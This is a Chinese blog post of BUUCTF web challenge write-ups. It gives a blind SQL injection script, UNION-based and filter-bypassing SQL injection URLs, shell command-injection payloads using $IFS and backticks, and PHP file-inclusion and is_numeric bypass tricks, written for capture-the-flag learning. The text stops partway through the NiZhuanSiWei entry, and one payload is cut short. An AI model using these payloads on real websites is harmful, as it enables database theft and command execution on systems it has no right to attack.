<!--yml
category: 未分类
date: 2022-04-26 14:31:54
-->

# BUUCTF_web部分题解_ro4lsc的博客-CSDN博客

> 来源：[https://blog.csdn.net/gd_9988/article/details/105481036](https://blog.csdn.net/gd_9988/article/details/105481036)

# 前言

闲来无事，刷一刷BUUCTF的题目，记录一下
[[极客大挑战 2019]Havefun](#1)
[[CISCN2019 华北赛区 Day2 Web1]Hack World](#2)
[[极客大挑战 2019]Secret File](#3)
[[极客大挑战 2019]Knife](#4)
[[极客大挑战 2019]LoveSQL](#5)
[[极客大挑战 2019]Http](#6)
[[GXYCTF2019]Ping Ping Ping](#7)
[[极客大挑战 2019]BabySQL](#8)
[[极客大挑战 2019]BuyFlag](#9)
[[ZJCTF 2019]NiZhuanSiWei](#10)
[[ACTF2020 新生赛]Include](#11)
[[ACTF2020 新生赛]Exec](#12)
[[极客大挑战 2019]Upload](#13)
[[BJDCTF 2nd]简单注入](#14)
[[ACTF2020 新生赛]BackupFile](#15)

### [极客大挑战 2019]Havefun

> 点击链接，进入
> 
> 乍一看，也没什么思路，看看源代码
> 在代码最后看到了这样一段注释的代码(php)

```
<?php
$cat = $GET['cat'] 
echo $cat;  	   
if($cat == 'dog'){ 
	echo 'Syc{cat_cat_cat_cat}';
}
?> 
```

> 这么分析了一下还是很简单的，故
> payload:?cat=dog
> 

### [CISCN2019 华北赛区 Day2 Web1]Hack World

> 首先进入题目，看到
> 
> 很明显的提示了，flag在flag表的flag字段
> 这个题目我看了下源代码，过滤了很多函数

```
$blackList = array(' ','||','#','-',';','&','+','or','and','`','"','insert','group','limit','update','delete','*','into','union','load_file','outfile','./'); 
```

> 但是并没有过滤substr(),ascii()，这里我们可以使用盲注。
> 而or and这些却被过滤了，参考其他大佬的文章，这里使用异或，虽然从来没有接触过，不过今天接触了一下就记录一下吧
> 手工当然非常麻烦，所以还是上脚本

```
import requests
flag = ''
url="http://868ea552-5ca5-4b23-9a7d-f454af6ad5e1.node3.buuoj.cn/"
for i in range(1,50):            
    lmin = 33                    
    lmax = 127                   
    while lmax-lmin > 1:    
        mid = (lmax + lmin) // 2 
        print("mid: ",mid)

        payload = "0^(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
        '''
        data = {"id":payload} #这一段程序可以用下面一句话总结
        res = requests.post(url,data=data)
        print(payload)
        if "Hello" in res.text:
        '''

        if requests.post(url,data={"id":payload}).text.find("Hello")>1:
            lmin = mid
        else:
            lmax = mid
            print("lmax: ",lmax)
    flag += chr(lmin+1)
print(flag) 
```

> 总结一下,对于SQL还是需要拓宽一下思路，这里使用了二分法，如果不使用二分法，暴力也是可取的，只不过是时间问题。

### [极客大挑战 2019]Secret File

> 打开网页
> 
> 熟悉的套路，看看源码
> 
> 点击链接
> 
> 点击SECRET
> 
> ？？？我他喵还没看到
> 话不多说burp抓包
> 
> 可以看到有一个提示secr3t.php，访问
> 

```
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 

?> 
```

> 这里有几个函数
> strstr() strstr() 函数搜索字符串在另一字符串中的第一次出现。
> stristr() 这个和strstr函数作用差不多，只不过对大小写不敏感
> 很明显的是一个文件包含，它过滤了一些参数，这里我们可以使用php伪协议filter读取flag.php文件的源代码

```
故payload:?file=php: 
```

> 
> 复制下来进行base64转码就可以得到页面的源代码
> 
> 得到flag

### [极客大挑战 2019]Knife

> 打开网页
> 如题目所说，真的是白给的shell
> 
> 这太明显了
> 蚁剑上
> 
> 
> 
> 一键获取flag
> cat /flag
> 

### [极客大挑战 2019]LoveSQL

> 打开网页，测试了一下发现是字符型注入
> 相对于来说较为容易，那么这里我就直接给出payload

判断字段

```
/check.php?username=admin%27order by 3%23&password=admin 
```

判断版本和数据库

```
/check.php?username=admin%27union select 1,version(),database()%23&password=admin 
```

判断表名，通过limit关键字确定有俩个表名

```
/check.php?username=admin%27union select 1,unhex(Hex(cast(table_name as char))),3 from information_schema.tables where table_schema='geek'%23&password=admin 
```

判断字段名，username和password

```
/check.php?username=admin%27union select 1,unhex(Hex(cast(column_name as char))),3 from information_schema.columns where table_name='love1ysq1'%23&password=admin 
```

爆出flag

```
/check.php?username=1' union select 1,2,group_concat(concat_ws(0x7e,username,password)) from geek.l0ve1ysq1 %23&password=1 
```

### [极客大挑战 2019]Http

> 打开网页
> 
> 啥都没有，看看源码
> 
> 确实隐藏的很好
> 访问之后
> 这个很明显，需要添加一个Referer头
> 开burp
> 
> 
> 返回包
> 
> 故添加
> 
> 
> 这里就需要添加一个XFF头
> 
> 得到flag
> 

### [GXYCTF2019]Ping Ping Ping

> 打开网页
> 
> 很明显提示我们得在url后面加上这么一个玩意
> 而ip又很容易让人联想ip地址，那么咱们就写一个127.0.0.1
> 
> 很明显的一个命令执行
> 那么就构造

```
payload:/?ip=127.0.0.1;ls 
```

> 
> 看到有个flag.php和index.php，可以使用cat flag.php查看
> 那么这里就构造

```
payload:/?ip=127.0.0.1;cat flag.php 
```

> 
> 发现空格好像被过滤了，FUZZ一下决定还是使用$IFS$1进行绕过。
> 先看看index.php的源代码，构造

```
payload:/?ip=127.0.0.1;cat$IFS$1index.php 
```

> index.php网页源代码

```
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
?> 
```

> 故可以构造

```
payload:/?ip=127.0.0.1;a=f;b=g;c=la;cat$IFS$1$a$c$b.php 
```

or

```
payload:/?ip=127.0.0.1;cat$IFS$1`ls` 
```

这里是借鉴了其他师傅的payload，也算是给自己涨涨见识吧。

### [极客大挑战 2019]BabySQL

> 打开网页
> 
> 想必这次肯定是有过滤的
> 简单测试下

```
/check.php
?username=admin
&password=admin' order by 1 
```

> 
> 发现password字段存在注入，可or没了
> 尝试是否可以双写绕过

```
/check.php
?username=admin
&password=-admin' oorrder bbyy 3--+ 
```

查看注入点

```
/check.php
?username=admin
&password=-admin' uunionnion seselectlect 1,2,3--+ 
```

判断数据库名

```
/check.php
?username=admin
&password=-admin' uunionnion seselectlect 1,database(),3--+ 
```

判断表名

```
/check.php
?username=admin
&password=-admin' uunionnion seselectlect 1,group_concat(table_name),3 frfromom infoorrmation_schema.tables whwhereere table_schema = database()--+ 
```

判断字段名

```
/check.php
?username=admin
&password=-admin' uunionnion seselectlect 1,group_concat(column_name),3 frfromom infoorrmation_schema.columns whwhereere table_name = 'b4bsql'--+ 
```

flag

```
/check.php
?username=admin
&password=-admin' uunionnion seselectlect 1,group_concat(concat_ws(0x7e,username,passwoorrd)),3 frfromom b4bsql--+ 
```

### [极客大挑战 2019]BuyFlag

> 打开网站
> 
> 也没看到什么有效信息，看看右上角有个menu，里面有个payflag
> 
> 老规矩。看看源代码
> 
> POST两个参数money和password
> 这个时候我们需要打开burp
> 发送一个POST请求给pay.php
> 
> 变更请求方法
> 在这里is_numeric()函数有个漏洞，使得我们可以绕过。

```
is_numeric()函数是判断变量是否是数字或者数字字符串，不仅检查10进制，16进制也可以.
is_numeric()对于空字符%00,不论%00放在数字前后，都会返回false,对于%20,只有放在数字后才会返回false. 
```

所以我们构造

```
payload:password=404%00&money=100000000 
```

> 
> 而我们观察到
> 
> 这个地方以直觉来看，肯定是要改为1的
> 
> 而返回包
> 
> 这么一看来，肯定是money参数的值太长了，这个地方得绕过一下、
> 这里我们构造

```
payload:password=404%00&money[]=1 
```

得到flag


### [ZJCTF 2019]NiZhuanSiWei

> 打开网页

```
<?php   
$text = $_GET["text"]; 
$file = $_GET["file"]; 
$password = $_GET["password"]; 
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){ 
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>"; 
    if(preg_match("/flag/",$file)){ 
        echo "Not now!"; 
        exit();  
    }else{ 
        include($file);  
        $password = unserialize($password); 
        echo $password; 
    } 
} 
else{ 
    highlight_file(__FILE__); 
} 
?> 
```

分析

```
